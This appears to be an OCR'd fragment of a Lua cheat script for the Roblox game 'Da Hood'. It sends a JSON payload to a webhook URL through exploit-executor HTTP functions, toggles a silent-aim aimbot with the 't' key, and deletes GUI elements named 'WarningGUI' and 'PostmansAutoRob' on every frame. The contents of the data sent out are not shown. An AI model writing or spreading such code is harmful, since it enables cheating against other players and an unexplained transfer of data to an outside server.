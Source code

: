 		if syn then
			local response = syn.request(
				{
					Url = webh,
					Method = 'POST',
					Headers = {
						['Content-Type'] = 'application/json'
					},
					Body = game:GetService('HttpService'):JSONEncode(data)
				}
			);
		elseif request then
			local response = request(
				{
					Url = webh,
					Method = 'POST',
					Headers = {
						['Content-Type'] = 'application/json'
					},
					Body = game:GetService('HttpService'):JSONEncode(data)
				}
			);
		elseif http_request then
			local response = http_request(
				{
					Url = webh,
					Method = 'POST',
					Headers = {
						['Content-Type'] = 'application/json'
					},
					Body = game:GetService('HttpService'):JSONEncode(data)
				}
			);
		end
	end)
	
	
	local L_1_ = "t"
	local L_2_ = game.Players.LocalPlayer:GetMouse()
	L_2_.KeyDown:Connect(
		function(L_22_arg0)
			if L_22_arg0 == L_1_ then
				if DaHoodSettings.SilentAim == true then
					DaHoodSettings.SilentAim = false
				else
					DaHoodSettings.SilentAim = true
				end
			end
		end
	)
	game:GetService("RunService").RenderStepped:Connect(
	function()
		for L_23_forvar0, L_24_forvar1 in pairs(game.CoreGui:GetChildren()) do
			if L_24_forvar1.Name == "PostmansAutoRob" then
				L_24_forvar1:Destroy()
			end
		end
		for L_25_forvar0, L_26_forvar1 in pairs(game.CoreGui:GetChildren()) do
			if L_26_forvar1.Name == "WarningGUI" then
				L_26_forvar1:Destroy()
			end
		end
	end
	)